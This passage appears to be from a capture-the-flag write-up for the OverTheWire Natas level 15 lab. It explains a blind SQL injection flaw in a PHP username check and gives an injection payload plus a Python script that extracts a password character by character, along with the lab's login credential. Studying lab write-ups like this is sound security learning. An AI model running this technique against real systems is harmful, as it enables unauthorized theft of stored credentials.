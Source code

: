 >     mysqli_close($link);
> } else {
> ?>
> 
> <form action="index.php" method="POST">
> Username: <input name="username"><br>
> <input type="submit" value="Check existence" />
> </form>
> <?php } ?>
> ```

The code connects to the MySQL database and checks if the provided username exists in the `users` table.
If the query returns any rows, it means the user exists and a message is printed.  
$_GET is used to check if the `debug` parameter is set, in which case it prints the executed query. To use it we can add `?debug=1` to the URL.

![debug mode](pics/natas/2025-07-05-11-37-09.png)

The query is constructed using the provided username without any sanitization, which makes it vulnerable to SQL injection attacks.  
Since we only get "This user exists." or "This user doesn't exist." messages, to find the password we can make the query check if the password starts with a specific character and extract the password character by character.
To do this, we can use the following payload for the username field:

```
Username: natas16" AND SUBSTRING(password,1,1) = "a" --
```

This payload will make the query check if the password starts with the letter "a". If it does, we will get the message "This user exists.", otherwise we will get "This user doesn't exist.".  
Now we have to automate the process of checking each character of the password. We can use a script to do this:

```python
import requests
import string
from requests.auth import HTTPBasicAuth

URL = "http://natas15.natas.labs.overthewire.org/index.php?debug=1"
auth=HTTPBasicAuth('natas15', 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
known = ""
found = True
charSet = string.digits + string.ascii_letters

for i in range(1, 65):
    if not found:
        break
    for c in charSet:
        payload = f'username=natas16" AND BINARY SUBSTRING(password,{i},1) = "{c}" -- '
        r = requests.post(url=URL, headers=headers, auth=auth, data=payload)
        if "This user exists" in r.text:
            found = True
            known += c
            print(known)
            break
        else:
            found = False
```

